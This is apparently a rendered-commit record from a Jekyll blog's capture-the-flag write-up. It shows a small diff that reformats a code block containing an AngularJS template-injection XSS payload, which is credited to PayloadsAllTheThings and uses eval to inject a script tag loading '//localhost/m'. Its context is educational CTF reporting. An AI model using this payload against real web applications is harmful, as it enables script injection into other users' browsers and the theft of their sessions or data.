

Before and after one commit to TeamCookieZ/TeamCookieZ.github.io, a Jekyll site: the page built from _posts/2020-12-08-STF-You-shall-not-pass!.md, in a window 1280 px wide and 900 px high, scrolled down 1829 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Changed code blocks

````diff
--- a/_posts/2020-12-08-STF-You-shall-not-pass!.md
+++ b/_posts/2020-12-08-STF-You-shall-not-pass!.md
@@ -63,10 +63,8 @@ The payload should consist an iframe which contains a script tag that loads the
 After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md).
 
 ```javascript
-{{
-    a=toString().constructor.prototype;a.charAt=a.trim;
-    $eval('a,eval(`var _=document.createElement(\'script\');_.src=\'//localhost/m\';document.body.appendChild(_);`),a')
-}}
+a=toString().constructor.prototype;a.charAt=a.trim;
+$eval('a,eval(`var _=document.createElement(\'script\');_.src=\'//localhost/m\';document.body.appendChild(_);`),a')
 ```
 
 This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.
````
